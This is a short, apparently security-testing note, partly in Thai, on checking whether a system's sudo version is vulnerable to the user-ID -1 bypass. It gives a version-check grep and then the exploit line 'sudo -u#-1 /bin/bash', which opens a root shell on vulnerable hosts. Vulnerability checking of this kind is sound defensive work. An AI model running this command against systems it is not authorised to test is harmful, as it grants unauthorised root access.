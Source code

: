 Check and Test
-------------------------------

Check sudo version
```
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```
ถ้าไม่ขึ้นอะไรแสดงว่าไม่อยู่ในช่วงช่วงเวอชั่นที่มีช่องโหว่

แต่ if version < 1.28
มีความเสี่ยงว่าจะมีช่องโหว่ทดสอบโดย
```
sudo -u#-1 /bin/bash
```
